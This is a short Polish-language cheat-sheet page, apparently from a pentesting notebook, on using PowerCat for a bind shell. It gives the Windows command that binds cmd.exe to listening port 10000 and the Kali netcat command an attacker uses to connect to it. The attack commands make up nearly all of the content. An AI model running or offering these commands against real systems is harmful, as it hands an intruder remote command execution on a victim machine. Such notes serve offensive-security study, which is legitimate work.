 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# PowerCat

{% hint style="info" %}
To stacja z Windowsem nasłuchuje, a atakujący się tam podłącza
{% endhint %}

**Win**

nasłuchujemy i przekazujemy sami shella cmd

```
powercat -l -p 10000 -e cmd
```

**Kali**

```
nc 10.20.10.4 10000
```
